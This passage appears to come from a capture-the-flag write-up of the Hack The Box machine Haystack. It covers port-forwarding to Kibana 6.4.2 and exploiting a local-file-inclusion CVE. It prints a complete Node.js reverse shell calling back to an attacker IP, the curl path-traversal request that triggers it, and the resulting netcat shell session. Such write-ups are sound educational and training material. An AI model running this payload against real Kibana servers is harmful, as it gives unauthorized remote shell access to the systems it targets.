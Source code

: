 Logstash and Kibaba are only listening on localhost. To access the ports from my box I set up SSH local port forwarding: `# ssh -L 5601:127.0.0.1:5601 -L 9600:127.0.0.1:9600 security@10.10.10.115`

Kibana is running version `Version: 6.4.2`:

![](/assets/images/htb-writeup-haystack/es4.png)

There's an LFI CVE in Kibana for that version which let us execute Javascript code.

[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

I created `/tmp/shell.js` with a standard reverse shell:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

I then triggered my payload with `curl "http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js"`

A got a callback soon after:

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:47552.
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$ 
```
